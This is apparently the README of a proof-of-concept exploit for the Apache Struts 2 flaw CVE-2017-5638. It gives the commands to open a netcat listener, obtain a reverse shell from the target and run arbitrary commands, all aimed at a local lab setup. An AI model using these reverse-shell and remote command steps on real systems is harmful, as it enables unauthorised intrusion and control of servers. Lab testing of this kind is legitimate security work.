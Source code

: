 # CVE-2017-5638
Apache Struts 2 Vulnerability Remote Code Execution

Reverse shell from target

Author: anarc0der - github.com/anarcoder

Tested with tomcat8

Install tomcat8

Deploy WAR file https://github.com/nixawk/labs/tree/master/CVE-2017-5638

Ex:

Open: $ nc -lnvp 4444

python2 struntsrce.py --target=http://localhost:8080/struts2_2.3.15.1-showcase/showcase.action --ip=127.0.0.1 --port=4444

python2 struntsrce.py --target=http://localhost:8080/struts2_2.3.15.1-showcase/showcase.action --test

python2 struntsrce.py --target=http://localhost:8080/struts2_2.3.15.1-showcase/showcase.action --cmd='uname -a'


